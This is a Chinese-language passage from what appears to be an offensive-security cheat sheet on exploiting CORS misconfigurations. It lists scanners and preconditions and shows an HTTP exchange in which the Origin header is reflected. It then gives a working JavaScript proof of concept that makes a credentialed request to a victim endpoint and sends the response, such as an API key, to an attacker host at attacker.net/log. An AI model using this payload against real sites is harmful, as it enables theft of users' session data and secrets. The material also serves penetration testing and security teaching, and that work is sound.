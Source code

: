 # 跨域资源共享（CORS）配置错误

> 一个API域存在全局CORS配置错误。这允许攻击者代表用户发起跨站请求，因为应用程序没有将Origin头列入白名单，并且设置了`Access-Control-Allow-Credentials: true`，这意味着我们可以使用受害者的凭据从攻击者的站点发起请求。

## 摘要

- 工具
- 先决条件
- 利用方法
- 参考资料

## 工具

- [s0md3v/Corsy - CORS配置错误扫描器](s0md3v/Corsy - CORS配置错误扫描器)
- [chenjj/CORScanner - 快速CORS配置错误漏洞扫描器](chenjj/CORScanner - 快速CORS配置错误漏洞扫描器)
- [PostMessage POC Builder - @honoki](https://tools.honoki.net/postmessage.html)
- [trufflesecurity/of-cors - 利用内部网络上的CORS配置错误](trufflesecurity/of-cors - 利用内部网络上的CORS配置错误)

## 先决条件

- 攻击者头部 > `Origin: https://evil.com`
- 受害者头部 > `Access-Control-Allow-Credential: true`
- 受害者头部 > `Access-Control-Allow-Origin: https://evil.com` 或 `Access-Control-Allow-Origin: null`

## 利用方法

通常目标是API端点。使用以下有效负载来利用目标`https://victim.example.com/endpoint`上的CORS配置错误。

### 易受攻击的示例：Origin反射

#### 易受攻击的实现

```powershell
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=...

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true

{"[私有API密钥]"}
```

#### 概念验证

此PoC要求相应的JS脚本托管在`evil.com`上

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://victim.example.com/endpoint',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText;
};
```
